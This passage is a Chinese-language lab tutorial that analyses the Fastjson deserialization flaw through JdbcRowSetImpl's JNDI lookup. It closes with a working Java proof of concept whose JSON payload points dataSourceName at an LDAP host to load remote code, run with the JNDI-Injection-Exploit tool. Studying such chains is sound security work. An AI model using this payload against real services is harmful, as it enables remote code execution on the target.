

搜索datasourceNmae得到

```java
    public void setDataSourceName(String var1) throws SQLException {
        if (this.getDataSourceName() != null) {
            if (!this.getDataSourceName().equals(var1)) {
                super.setDataSourceName(var1);
                this.conn = null;
                this.ps = null;
                this.rs = null;
            }
        } else {
            super.setDataSourceName(var1);
        }

    }
```

因为我们反序列化传入参数getDataSourceName，所以从这个set函数可以得到会调用super.setDataSourceName(var1);

所以dataSourceName的值变为我们传入的值

然后搜索autoCommit，得到

```java
    public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }

    }
```

因为conn我们没有传入值，默认空值，



所以执行`this.conn = this.connect();`

进入connect()

可以看到



此处就是漏洞利用点，由于传入了dataSourceName，所以此处执行

```
DataSource var2 = (DataSource)var1.lookup("传入的值");
```

当传入类似rmi://127.0.0.1:1099/cxzyc6，就会触发远程命令执行漏洞。

可以使用https://github.com/welk1n/JNDI-Injection-Exploit工具来测试。不过利用成功的话对java等版本有要求

### 利用链总结

com.sun.rowset.JdbcRowSetImpl类存在以下特点：

- 当调用setDataSourceName()方法时，会设置数据源名称
- 当调用setAutoCommit()方法时，如果连接为空，会尝试建立连接
- 在建立连接时，会使用JNDI查找dataSourceName指定的远程对象
- 如果dataSourceName指向恶意RMI服务器，攻击者就可以让目标服务器加载并执行远程的恶意代码

### 攻击流程

> 攻击者设置恶意RMI服务器（如：rmi://127.0.0.1:1099/cxzyc6）
> 目标应用使用Fastjson解析包含恶意@type的JSON
> Fastjson实例化JdbcRowSetImpl对象并调用setter方法
> JdbcRowSetImpl通过JNDI连接到恶意RMI服务器
> RMI服务器返回恶意类并执行，实现远程代码执行

### 利用

#### 一

可以使用ldap协议

在http://www.dnslog.cn/网站得到一个域名，



然后运行，这样不能测试RCE，但也可以看到访问



#### 二

修改代码为：

```java
package FastjsonUnserializationDemo.One;

import com.alibaba.fastjson.JSON;

public class FastjsonRce {
    public static void main(String[] args) {
        // 设置JNDI信任远程codebase
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");

        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://10.56.93.60:1389/dyhorb\", " +
                "\"autoCommit\":true" +
                "}";
        try {
            JSON.parse(payload);
        } catch (Exception e) {
            System.out.println("发生异常，但这在测试中是预期的: " + e.getMessage());
            e.printStackTrace();
        }
    }
}
```

然后使用[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)工具，

配置工具

运行后，再运行有漏洞的代码，可以看到成功弹出计算器。
